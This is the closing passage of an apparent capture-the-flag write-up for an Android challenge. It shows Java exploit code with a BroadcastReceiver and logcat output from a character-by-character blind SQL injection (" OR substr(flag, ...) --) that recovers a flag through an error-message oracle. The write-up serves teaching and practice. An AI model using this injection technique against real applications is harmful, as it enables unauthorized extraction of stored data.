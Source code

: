```java
  
    private class FlagReceiver extends BroadcastReceiver {  
        @Override  
        public void onReceive(Context context, Intent intent) {  
            String response = intent.getStringExtra("msg");  
  
            if ("Incorrect password".equals(response)) {  
                recoveredFlag += testChar;  // Character found!  
                currentIndex++;  // Move to next position  
                testChar = '0';  // Reset char to start from '0'  
                Log.d("Exploit", "Here's your flag: " + recoveredFlag);  
            } else {  
                if (testChar == '9') {  
                    testChar = 'a';  // Move to 'a' after '9'  
                } else if (testChar == 'f') {  
                    // This is an assumption that the flag uses hexadecimal characters  
                    Log.w("Exploit", "Flag extraction completed: " + knownPrefix + recoveredFlag + "}");  
                    return;  // Flag recovered  
                } else {  
                    testChar++;  // Try next character  
                }  
            }  
  
            // Continue extracting characters until the full flag is found  
            if (currentIndex < knownPrefix.length() + 32 + 1) {  
                extractNextChar();  
            }  
        }  
    }  
}
```

Run **logcat** while your app is **executing** and here's the output:
```bash
[...]
[...]
[...]
D/Exploit (11501): Here's your flag: 608dc6110462ee35488edf83443fbbc
D/Received(10176): " OR substr(flag, 84, 1) = "0" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "0" --
D/Result  (10176): User does not exist
D/Received(10176): " OR substr(flag, 84, 1) = "1" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "1" --
D/Result  (10176): User does not exist
D/Received(10176): " OR substr(flag, 84, 1) = "2" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "2" --
D/Result  (10176): User does not exist
D/Received(10176): " OR substr(flag, 84, 1) = "3" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "3" --
D/Result  (10176): Incorrect password
D/Exploit (11501): Here's your flag: 608dc6110462ee35488edf83443fbbc3
```


I hope you found it useful (: